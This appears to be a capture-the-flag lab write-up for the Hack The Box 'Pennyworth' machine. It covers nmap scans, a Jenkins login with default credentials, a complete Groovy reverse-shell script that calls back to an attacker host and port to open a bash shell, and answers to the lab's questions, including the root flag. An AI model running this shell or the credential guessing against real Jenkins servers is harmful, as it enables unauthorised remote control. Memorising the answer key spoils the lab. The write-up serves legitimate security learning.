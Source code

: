 # Pennyworth (Tier 1)

## <mark style="color:blue;">Description</mark>

* **Tier&#x20;**<mark style="color:green;">**->**</mark>**&#x20;1**
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags&#x20;**<mark style="color:green;">**->**</mark> Common Applications / Jenkins / Java / Reconnaissance / Remote Code Execution\
  &#x20;             / Default Credentials

<figure><img src="../../.gitbook/assets/image (575).png" alt=""><figcaption><p><a href="https://app.hackthebox.com/starting-point?tier=1">https://app.hackthebox.com/starting-point?tier=1</a></p></figcaption></figure>

## <mark style="color:blue;">Write-up</mark>

* With a little research, I started answering the first questions

<figure><img src="../../.gitbook/assets/image (710).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Common Vulnerabilities and Exposures**_

***

<figure><img src="../../.gitbook/assets/image (711).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Confidentiality, Integrity, Availability**_

***

* Then I did an initial port scan using [_Nmap_](../../networks/tools-and-utilities.md#nmap)

{% code lineNumbers="true" %}
```bash
nmap 10.129.197.177 -p- -Pn --min-rate 2500 -oN scan.txt
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>

***

* I also did an exhaustive scan to get more information about the service running on the open port

<pre class="language-basic" data-line-numbers><code class="lang-basic"><strong>nmap 10.129.197.177 -p8080 -sVC -oN serv_scan.txt
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (558).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (713).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Jetty 9.4.39.v20210325**_

***

* I found the service was using the HTTP protocol on port 8080, so I visited the content being deployed through the browser. There, I found a _Jenkins_ login page, and with a little [research](https://www.jenkins.io/), I learned this is an automation server for web services

<figure><img src="../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the HTTP protocol, you can go [here](../../networks/protocols/http/)
{% endhint %}

***

* I tried to log in with common credentials, and after trying with the username _root_ and the password _password_, I got in successfully to an administration dashboard. I explored the site and noticed that by scrolling down to the bottom, the version of the _Jenkins_ service was shown

<figure><img src="../../.gitbook/assets/image (560).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (562).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (359).png" alt=""><figcaption></figcaption></figure>

> Answer: _**2.289.1**_

***

* I searched for possible CVEs for this version of _Jenkins_ but didn't find anything. So I explored the options of the dashboard and found that by scrolling down under the _Manage Jenkins_ tab, there was an option named _Script Console_, and with some [research](https://www.jenkins.io/doc/book/managing/script-console/), I learned that it would allow me to interact internally with the server via a type of script called _Groovy_

<figure><img src="../../.gitbook/assets/image (563).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (564).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (565).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Groovy**_

***

* With this, I could search for more exploitation options under this service to gain a shell from the target system. So, to find out possible payloads, I looked for help on the _Reverse Shell Cheat Sheet_ from the [_PayloadsAllTheThings_](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) repository. After exploring and testing some payloads for _Groovy_, we found [one](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy) that worked and helped me gain a shell as the _root_ user. After that, I sanitized the terminal to interact better with the system

{% code title="RevShell.Groovy" overflow="wrap" lineNumbers="true" %}
```groovy
String host="10.10.14.117";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {p.exitValue();
break;
}catch (Exception e){}};
p.destroy();
s.close();
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (566).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (567).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn about the sanitization process, you can go [here](../../linux/useful-shell-resources.md#tty-sanitization)
{% endhint %}

***

* With this and a little research, I answer the next questions

<figure><img src="../../.gitbook/assets/image (571).png" alt=""><figcaption></figcaption></figure>

> Answer: _**cmd.exe**_

***

<figure><img src="../../.gitbook/assets/image (572).png" alt=""><figcaption></figcaption></figure>

> Answer: _**ifconfig**_

***

<figure><img src="../../.gitbook/assets/image (573).png" alt=""><figcaption></figcaption></figure>

> Answer: _**-u**_

***

<figure><img src="../../.gitbook/assets/image (574).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Reverse Shell**_

***

* Then, I went to the _/root_ folder to see its contents and found a _root.txt_ file, finally reading it to obtain the flag

<figure><img src="../../.gitbook/assets/image (569).png" alt=""><figcaption></figcaption></figure>

***

* With this, I got the root flag and pwned the machine

<figure><img src="../../.gitbook/assets/image (245) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**9cdfb439c7876e703e307864c9167a15**_
